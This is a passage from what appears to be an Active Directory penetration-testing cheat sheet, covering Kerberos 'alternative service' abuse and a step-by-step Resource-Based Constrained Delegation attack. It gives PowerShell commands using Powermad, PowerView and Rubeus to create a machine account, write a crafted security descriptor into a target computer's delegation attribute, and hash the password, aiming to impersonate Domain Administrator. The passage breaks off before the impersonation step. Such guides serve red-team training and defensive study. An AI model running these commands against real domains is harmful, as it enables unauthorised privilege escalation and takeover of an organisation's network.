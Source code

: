 In this case, we can still abuse a feature of Kerberos called "alternative service". This allows us to request TGS tickets for other "alternative" services and not only for the one we have rights for. That's gives us the leverage to request valid tickets for any service we want that the host supports, giving us full access over the target machine.

### Resource-Based Constrained Delegation

_What is this?:  TL;DR  If we have GenericALL/GenericWrite privileges on a machine account object of a domain, we can abuse it and impersonate ourselves as any user of the domain to it. For example, we can impersonate Domain Administrator and have complete access._

Tools we are going to use:

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/dev/Recon)
* [Powermad](https://github.com/Kevin-Robertson/Powermad)
* [Rubeus](https://github.com/GhostPack/Rubeus)

First, we need to enter the security context of the user/machine account that has the privileges over the object. If it is a user account we can use Pass the Hash, RDP, PSCredentials etc.

Exploitation Example:

Import Powermad and use it to create a new MACHINE ACCOUNT

```text
. .\Powermad.ps1
New-MachineAccount -MachineAccount <MachineAccountName> -Password $(ConvertTo-SecureString 'p@ssword!' -AsPlainText -Force) -Verbose
```

Import PowerView and get the SID of our new created machine account

```text
. .\PowerView.ps1
$ComputerSid = Get-DomainComputer <MachineAccountName> -Properties objectsid | Select -Expand objectsid
```

Then by using the SID we are going to build an ACE for the new created machine account using a raw security descriptor:

```text
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength) 
$SD.GetBinaryForm($SDBytes, 0)
```

Next, we need to set the security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we're taking over, again using PowerView

```text
Get-DomainComputer TargetMachine | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

After that we need to get the RC4 hash of the new machine account's password using Rubeus

```text
Rubeus.exe hash /password:'p@ssword!'
```
